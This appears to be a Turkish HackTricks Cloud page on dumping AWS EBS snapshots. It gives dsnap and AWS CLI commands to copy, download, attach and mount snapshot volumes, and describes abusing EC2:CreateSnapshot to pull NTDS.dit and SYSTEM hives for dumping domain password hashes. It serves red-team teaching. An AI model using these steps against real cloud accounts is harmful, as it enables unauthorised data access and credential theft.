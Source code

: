 # AWS - EBS Snapshot Dump

<details>

<summary><strong>AWS hacklemeyi sıfırdan ileri seviyeye öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## Bir anlık görüntüyü yerel olarak kontrol etme
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Not:** `dsnap` size genel yayınlanan anlık görüntüleri indirmenize izin vermeyecektir. Bunu atlamak için, anlık görüntüyü kişisel hesabınızda bir kopya oluşturabilir ve onu indirebilirsiniz:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Bu teknik hakkında daha fazla bilgi için orijinal araştırmayı [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/) adresinden kontrol edebilirsiniz.

Bunu Pacu kullanarak [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) modülü ile yapabilirsiniz.

## AWS'de bir snapshot'ı kontrol etme

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
**Kontrolünüz altındaki bir EC2 VM'sinde bağlayın** (yedeğin kopyasıyla aynı bölgede olmalıdır):

Adım 1: EC2 –> Hacimlere giderek tercih ettiğiniz boyutta ve türde yeni bir hacim oluşturun.

Bu işlemi gerçekleştirebilmek için şu komutları izleyin:

* Bir EBS hacmi oluşturun ve EC2 örneğine bağlayın.
* EBS hacmi ve örneğin aynı bölgede olduğundan emin olun.

Adım 2: Oluşturulan hacmi sağ tıklayarak "hacmi ekle" seçeneğini seçin.

Adım 3: Örneği örnek metin kutusundan seçin.

Bu işlemi gerçekleştirebilmek için şu komutu kullanın:

* EBS hacmini bağlayın.

Adım 4: EC2 örneğine giriş yapın ve mevcut diskleri `lsblk` komutunu kullanarak listeleyin.

Adım 5: Hacmin herhangi bir veri içerip içermediğini `sudo file -s /dev/xvdf` komutunu kullanarak kontrol edin.

Yukarıdaki komutun çıktısı "/dev/xvdf: data" ise, hacmin boş olduğu anlamına gelir.

Adım 6: Hacmi ext4 dosya sistemi biçimine `sudo mkfs -t ext4 /dev/xvdf` komutunu kullanarak biçimlendirin. Alternatif olarak, `sudo mkfs -t xfs /dev/xvdf` komutunu kullanarak xfs biçimini de kullanabilirsiniz. Lütfen ext4 veya xfs'ten birini kullanmanız gerektiğini unutmayın.

Adım 7: Yeni ext4 hacmi bağlamak için tercih ettiğiniz bir dizin oluşturun. Örneğin, "newvolume" adını kullanabilirsiniz.

Bu işlemi gerçekleştirebilmek için şu komutu kullanın: `sudo mkdir /newvolume`.

Adım 8: Hacmi "newvolume" dizinine `sudo mount /dev/xvdf /newvolume/` komutunu kullanarak bağlayın.

Adım 9: "newvolume" dizinine dizini değiştirin ve hacim bağlantısını doğrulamak için disk alanını kontrol edin.

Bu işlemi gerçekleştirebilmek için şu komutları kullanın:

* `/newvolume` dizinine dizini değiştirin.
* `df -h .` komutunu kullanarak disk alanını kontrol edin. Bu komutun çıktısı, "newvolume" dizinindeki boş alanı göstermelidir.

Bunu Pacu kullanarak `ebs__explore_snapshots` modülünü kullanarak yapabilirsiniz.

## AWS'de bir anın kontrol edilmesi (cli kullanarak)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
## Gölge Kopya

**`EC2:CreateSnapshot`** iznine sahip herhangi bir AWS kullanıcısı, **EBS Snapshot** oluşturarak **EBS Snapshot**'unu kontrol ettikleri bir örneğe bağlayarak ve Impacket'in secretsdump projesi ile kullanmak üzere **NTDS.dit ve SYSTEM** kayıt defteri hive dosyalarını dışa aktararak tüm etki alanı kullanıcılarının hash'lerini çalabilir.

Bu saldırıyı otomatikleştirmek için bu aracı kullanabilirsiniz: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) veya bir snapshot oluşturduktan sonra önceki tekniklerden birini kullanabilirsiniz.

## Referanslar

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

<details>

<summary><strong>Sıfırdan kahraman olana kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
